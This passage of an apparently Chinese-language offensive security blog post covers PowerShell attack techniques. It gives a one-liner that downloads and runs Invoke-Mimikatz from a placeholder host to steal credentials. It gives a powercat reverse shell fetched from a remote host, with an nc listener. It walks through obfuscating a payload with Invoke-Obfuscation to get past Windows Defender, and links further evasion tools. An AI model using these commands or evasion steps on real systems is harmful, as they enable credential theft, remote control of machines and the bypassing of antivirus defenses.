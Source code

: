 ```
powershell IEX (New-Object Net.WebClient).DownloadString('http://x.x.x.x/Invoke-Mimikatz.ps1'); Invoke-Mimikatz
```

**反弹 shell:**

```
#被控端：
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://x.x.x.x/powercat.ps1');powercat -c x.x.x.x -p 6666 -e cmd

nc -lvp 8888
```

**power shell 免杀项目推荐:**

两个师傅的博客网址：

> https://www.chabug.org/?s=powershell
> 
> https://www.cnblogs.com/forforever/p/13882312.html

感觉这两位师傅写的总结的都挺不错的, 其他师傅写的也都很不错。

> https://github.com/danielbohannon/Invoke-Obfuscation

```
Import-Module .\Invoke-Obfuscation.psd1
Invoke-Obfuscation
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09LBFaOWbbu3e7SJnt8s39N0NficRyH8Mo0CPLDCsKbwt0eTdWklibmpBTbeL6Kh1U6iadDHEtLia4y3Q/640?wx_fmt=png)

进入我们的主界面

```
encoding模块进行混淆
launcher模块生成加载器
string模块混淆字符串
```

```
set scriptpath C:\Users\Admin\Desktop\payload222.ps1 #设置我们需要免杀的脚本路径
encoding
out 1.ps1
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09LBFaOWbbu3e7SJnt8s39NMibm3f3LSUyNUcnn4Ee58VPLjS1aiaicnWfflYgW83EQ0s9tjEsh599WA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09LBFaOWbbu3e7SJnt8s39N5z7wnEyeu4Stf36zyptyXu2ibHo98VNdFCb4Fd2GZSpQ7HAhaFytWrQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09LBFaOWbbu3e7SJnt8s39NlTtIQV54vv9vue3ISiaIAXibWnO1JZa82vDZBayuhDyQBxvB55iad1zyg/640?wx_fmt=png)

这里是过了 Windows defender 的静态免杀，这个工具其他模块功能都挺足的，师傅们可以研究一下

其他项目：

> https://github.com/the-xentropy/xencrypt/blob/master/xencrypt.ps1
> 
> https://github.com/CBHue/PyFuscation
> 
> https://github.com/peewpw/Invoke-PSImage

end

  

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0icgJnwz55vaCiatpsqriaW2GZ7rRw3kbvpDFicsKcLcp9Q7tYiaMwLANvcHAoByTiaGaus4HBukgfIXt9g/640?wx_fmt=png)